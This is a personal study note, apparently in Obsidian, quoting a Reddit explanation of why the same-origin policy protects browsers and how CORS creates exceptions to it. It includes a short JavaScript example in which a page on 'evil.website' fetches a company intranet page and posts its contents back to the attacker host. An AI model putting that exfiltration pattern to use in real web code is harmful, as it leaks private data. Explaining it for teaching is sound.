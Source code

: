 ```yaml
---
share: true
created: 2023-10-30T14:29
updated: 2024-05-06T13:29
alias: same-origin policy là để trình duyệt bảo vệ người dùng, không phải để bảo vệ máy chủ
---
```


You are at work and you're connected to your company's intranet. Only people in your company's network can see this special website containing secret documents.

You visit this random website: [https://evil.website](https://evil.website). On this website, there is the following code:
```js
const fetchResult = await fetch("https://yourcompany.website/secret/documents");
const secretsPage = await fetchResult.text();
await fetch("https://evil.website/database/save", { method: "post", body: secretsPage });
```

Same origin policy (enabled on every browser) disallows this. You cannot be on evil.website and make a request to another website. So line 1 would throw an error and the rest of the code wouldn't run, saving you from a nasty situation.

CORS exists to loosen up this rule. Maybe yourcompany.website is totally cool with the above scenario because evil.website is their poorly named trusted partner. So yourcompany.website sets up CORS to tell the browser: "hey if you're making this request from evil.website, it's totally cool with us." Now the above code will work as expected as the browser is satisfied with this exception to the same origin policy.

In the above example, your browser was potentially being abused to exfiltrate company secrets that are only accessible from your network. Same origin policy protects **your browser** from being abused in these ways. CORS is about providing exceptions to this rule.

The misconception here is the following. People set up CORS on their webserver. That's why they expect CORS protects their web server in some way. This is 100% wrong. Setting CORS up properly is about protecting the clients (ie. browsers). The only side-effect CORS has for your webserver is that it may add a few response headers to help out the browser make a decision. The real magic happens on the browser.

Trích từ:: [What is CORS and why is it so annoying : r/reactjs](https://www.reddit.com/r/reactjs/comments/11cyejn/comment/ja77iy4/)

[How to win at CORS - JakeArchibald.com](https://jakearchibald.com/2021/cors/)
![](https://wizardzines.com/images/uploads/why-same-origin-matters.png) 
[Same-origin policy ngăn chặn việc script ở tab này điều khiển tab kia](./Same-origin%20policy%20ng%C4%83n%20ch%E1%BA%B7n%20vi%E1%BB%87c%20script%20%E1%BB%9F%20tab%20n%C3%A0y%20%C4%91i%E1%BB%81u%20khi%E1%BB%83n%20tab%20kia.md)
[Origin là sự kết hợp của protocol, hostname và port](./Origin%20l%C3%A0%20s%E1%BB%B1%20k%E1%BA%BFt%20h%E1%BB%A3p%20c%E1%BB%A7a%20protocol,%20hostname%20v%C3%A0%20port.md)
